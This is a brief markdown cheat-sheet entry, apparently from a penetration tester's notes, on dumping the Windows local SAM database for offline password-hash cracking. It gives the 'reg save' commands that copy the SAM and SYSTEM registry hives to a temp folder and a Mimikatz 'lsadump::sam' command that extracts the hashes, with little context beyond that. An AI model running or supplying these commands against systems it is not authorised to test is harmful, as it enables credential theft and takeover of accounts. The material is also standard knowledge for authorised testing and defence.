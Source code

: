 # Index
- [[ Windows Credential Harvesting]]
 
 #### Dumping Local SAM Database

The **Security Account Manager (SAM)** database stores local account credentials (password hashes). These can be dumped for offline cracking using **Mimikatz** or similar tools.

- **CMD:** Save the SAM and SYSTEM registry hives to disk for further extraction:
    ```cmd
    reg save HKLM\SAM C:\Windows\Temp\SAM
    reg save HKLM\SYSTEM C:\Windows\Temp\SYSTEM
    ```

- **Mimikatz:** Dump SAM hashes:
    ```cmd
    mimikatz.exe "lsadump::sam" exit
    ```